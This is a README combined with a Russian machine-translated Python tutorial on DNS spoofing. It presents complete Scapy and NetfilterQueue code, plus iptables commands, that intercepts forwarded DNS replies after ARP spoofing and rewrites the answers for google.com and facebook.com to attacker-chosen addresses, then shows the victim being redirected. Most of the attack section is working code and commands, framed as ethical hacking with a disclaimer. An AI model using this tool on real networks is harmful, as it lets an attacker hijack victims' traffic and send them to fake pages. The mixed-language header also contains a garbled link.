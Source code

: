 # [Writing a DNS Spoofer](https://www.thepythoncode.com/article/make-dns-spoof-python)
To successfully run it, you need:
- Linux machine ( or VM )
- `pip3 install -r requirements.txt`
- Run [ARP Spoof](../arp-spoofer/arp_spoof.py) script against the target.
- Run this script:
    ```
    python3 dns_spoof.py
    ```
##
# [[] / []]()
В предыдущем уроке мы обсуждали подделку ARP и то, как успешно сделать этот вид атаки с помощью библиотеки Scapy. Тем не менее, мы не упомянули о преимуществе быть человеком посередине. В этом уроке мы увидим один из интересных методов, DNS-спуфинг.

Что такое DNS
Сервер Domain Name System преобразует читаемое человеком доменное имя (например, google.com) в IP-адрес, который используется для установления соединения между сервером и клиентом, например, если пользователь хочет подключиться к google.com, машина пользователя автоматически отправит запрос на DNS-сервер, сказав, что я хочу, чтобы IP-адрес google.com как показано на рисунке:

DNS-запросСервер ответит соответствующим IP-адресом этого доменного имени:

Ответ DNS

Затем пользователь будет нормально подключаться к серверу:

Подключение к серверу после DNS-запроса

Хорошо, это совершенно нормально, но что, если между пользователем и Интернетом есть машина «человек посередине»? ну, этот человек посередине может быть DNS Spoofer!

Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Что такое DNS-спуфинг
DNS-спуфинг, также называемый отравлением кэша DNS, представляет собой форму взлома компьютерной безопасности, при которой поврежденные данные системы доменных имен вводятся в кэш распознавателя DNS, в результате чего сервер имен возвращает неправильную запись результата, например, IP-адрес. Это приводит к тому, что трафик перенаправляется на компьютер злоумышленника (или любой другой компьютер). (Википедия)

Но метод, который мы собираемся использовать, немного отличается, давайте посмотрим на него в действии:

Запрос на подделку DNS

Примечание: Для того, чтобы быть человеком посередине, вам нужно выполнить сценарий подделки ARP, чтобы жертва сначала отправляла DNS-запросы на вашу машину, а не напрямую направляла их в Интернет.

Теперь, поскольку злоумышленник находится между ними, он получит DNS-запрос, указывающий «каков IP-адрес google.com», а затем он перенаправит его на DNS-сервер, как показано на следующем рисунке:

Злоумышленник пересылает DNS-запросDNS-сервер получил законный запрос, он ответит DNS-ответом:

Ответ DNS

Теперь злоумышленник получил тот DNS-ответ, который имеет реальный IP-адрес google.com, теперь он изменит этот IP-адрес на вредоносный поддельный IP-адрес (в данном случае его собственный веб-сервер 192.168.1.100 или 192.168.1.106 или что-то еще):

ПОДДЕЛЬНЫЙ IP-адрес ответа DNS

Таким образом, когда пользователь вводит google.com в браузере, он увидит поддельную страницу злоумышленника, не заметив этого!

Давайте посмотрим, как мы можем реализовать эту атаку с помощью Scapy в Python.

Связанные с: Этический взлом с Python Book

Написание сценария
Во-первых, я должен упомянуть, что мы будем использовать библиотеку NetfilterQueue, которая предоставляет доступ к пакетам, соответствующим правилу iptables в Linux (поэтому это будет работать только на дистрибутивах Linux).

Как вы можете догадаться, нам нужно вставить правило iptables, открыть терминал linux и ввести:

iptables -I FORWARD -j NFQUEUE --queue-num 0
Это правило указывает, что всякий раз, когда пакет пересылается, перенаправляйте его ( -j для перехода ) на номер очереди netfilter 0. Это позволит нам перенаправить все пересылаемые пакеты на Python.

Теперь давайте установим необходимые зависимости:

pip3 install netfilterqueue scapy
Let's import our modules (You need to install Scapy first, head to this tutorial or the official scapy documentation for installation):

from scapy.all import *
from netfilterqueue import NetfilterQueue
import os
Давайте определимся с нашим словарем DNS:

# DNS mapping records, feel free to add/modify this dictionary
# for example, google.com will be redirected to 192.168.1.100
dns_hosts = {
    b"www.google.com.": "192.168.1.100",
    b"google.com.": "192.168.1.100",
    b"facebook.com.": "172.217.19.142"
}
Объекту очереди netfilter потребуется обратный вызов, который вызывается всякий раз, когда пересылается пакет, давайте реализуем его:

def process_packet(packet):
    """
    Whenever a new packet is redirected to the netfilter queue,
    this callback is called.
    """
    # convert netfilter queue packet to scapy packet
    scapy_packet = IP(packet.get_payload())
    if scapy_packet.haslayer(DNSRR):
        # if the packet is a DNS Resource Record (DNS reply)
        # modify the packet
        print("[Before]:", scapy_packet.summary())
        try:
            scapy_packet = modify_packet(scapy_packet)
        except IndexError:
            # not UDP packet, this can be IPerror/UDPerror packets
            pass
        print("[After ]:", scapy_packet.summary())
        # set back as netfilter queue packet
        packet.set_payload(bytes(scapy_packet))
    # accept the packet
    packet.accept()
Все, что мы здесь сделали, это преобразовали пакет очереди netfilter в пакет scapy, а затем проверили, является ли это ответом DNS, если это так, нам нужно изменить его с помощью функции modify_packet (packet), давайте определим его:

def modify_packet(packet):
    """
    Modifies the DNS Resource Record `packet` ( the answer part)
    to map our globally defined `dns_hosts` dictionary.
    For instance, whenever we see a google.com answer, this function replaces 
    the real IP address (172.217.19.142) with fake IP address (192.168.1.100)
    """
    # get the DNS question name, the domain name
    qname = packet[DNSQR].qname
    if qname not in dns_hosts:
        # if the website isn't in our record
        # we don't wanna modify that
        print("no modification:", qname)
        return packet
    # craft new answer, overriding the original
    # setting the rdata for the IP we want to redirect (spoofed)
    # for instance, google.com will be mapped to "192.168.1.100"
    packet[DNS].an = DNSRR(rrname=qname, rdata=dns_hosts[qname])
    # set the answer count to 1
    packet[DNS].ancount = 1
    # delete checksums and length of packet, because we have modified the packet
    # new calculations are required ( scapy will do automatically )
    del packet[IP].len
    del packet[IP].chksum
    del packet[UDP].len
    del packet[UDP].chksum
    # return the modified packet
    return packet
Теперь давайте создадим экземпляр объекта очереди netfilter после вставки правила iptables:

QUEUE_NUM = 0
# insert the iptables FORWARD rule
os.system("iptables -I FORWARD -j NFQUEUE --queue-num {}".format(QUEUE_NUM))
# instantiate the netfilter queue
queue = NetfilterQueue()
Нам нужно связать номер очереди netfilter с обратным вызовом, который мы только что написали, и запустить его:

try:
    # bind the queue number to our callback `process_packet`
    # and start it
    queue.bind(QUEUE_NUM, process_packet)
    queue.run()
except KeyboardInterrupt:
    # if want to exit, make sure we
    # remove that rule we just inserted, going back to normal.
    os.system("iptables --flush")
Связанные с: Создание 24 хакерских инструментов с нуля с использованием Python

Я обернул его в try-except, чтобы обнаружить всякий раз, когда нажимается CTRL + C, чтобы мы могли удалить правило iptables, которое мы только что вставили.

Вот и все, теперь, прежде чем мы выполним его, помните, что нам нужно быть человеком посередине, поэтому давайте выполним наш скрипт arp spoof, который мы сделали в предыдущем уроке:

Подделка ARPДавайте выполним dns spoofer, который мы только что создали:

root@rockikz:~# python3 dns_spoof.py
Теперь скрипт прослушивает ответы DNS, давайте перейдем к машине жертвы и пингуем google.com:

Пинг google.com при подделке DNS

Подождите, что? IP-адрес google.com 192.168.1.100 !

Давайте попробуем просмотреть Google:

Результат подделки DNS

Я настроил простой веб-сервер на 192.168.1.100 (локальный сервер), который возвращает эту страницу, теперь google.com сопоставлен с 192.168.1.100 ! Удивительно.

Возвращаясь к машине злоумышленника:

Вывод подделки DNS

Поздравляю! Вы успешно завершили написание сценария атаки DNS-подделки, что не очень тривиально. Если вы хотите завершить атаку, просто нажмите CTRL + C на arp spoofer и DNS spoofer, и все готово.

ОТКАЗ от ответственности: Я не несу ответственности за использование этого скрипта в сети, на которую у вас нет разрешения. Используйте его под свою ответственность.

Подводя итог, этот метод широко используется среди тестеров сетевого проникновения, и теперь вы должны знать об этих видах атак.

В книге Ethical Hacking with Python мы создаем более 20 хакерских скриптов и инструментов! Проверьте это здесь, если вам интересно.